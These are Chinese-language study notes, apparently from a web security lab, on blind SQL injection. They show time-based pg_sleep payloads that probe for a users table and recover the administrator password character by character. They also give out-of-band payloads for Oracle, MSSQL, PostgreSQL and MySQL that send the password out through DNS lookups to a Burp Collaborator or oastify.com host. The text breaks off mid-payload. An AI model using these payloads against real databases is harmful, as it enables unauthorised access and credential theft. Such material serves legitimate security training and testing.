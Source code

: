 #### 判断是否存在表
构造判断 时间延迟语句
>' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
>若存在则系统会延迟10秒
>' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--

#### 判断内容长度

>' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若字符串长度大于1 则系统延迟10秒

#### 判断内容

>' || (SELECT CASE WHEN (username='administrator' AND SUBSTR(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
>若第一字符为 a 则系统延迟10秒

### 外带（OAST）技术SQL盲注

#### 生成DNS

BurpSuite 打开 Burp 中的Burp Collaborator client
生成DNS 点击Copy to clipboard 复制域名

#### 构造DNS lookup语句

*备注*
甲骨文	
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?> < !DOCTYPE root [ < ! ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/" > %remote; ] >'),'/l') FROM dual

以下技术适用于完全修补的 Oracle 安装，但需要提升权限：
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

微软	
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	以下技术仅适用于 Windows：
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

#### 带有数据泄露的 DNS 查找 

构造语句
>'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.604dmwveewo3kfsvv5aqbj3b72du1j.oastify.com/"> %remote;]>'),'/l') FROM dual)--

*备注*
**甲骨文** 		
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>< !DOCTYPE root [ < !ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual	
**微软** 		
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
**PostgreSQL** 	
create OR replace function f() returns void as &#36;&#36;
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;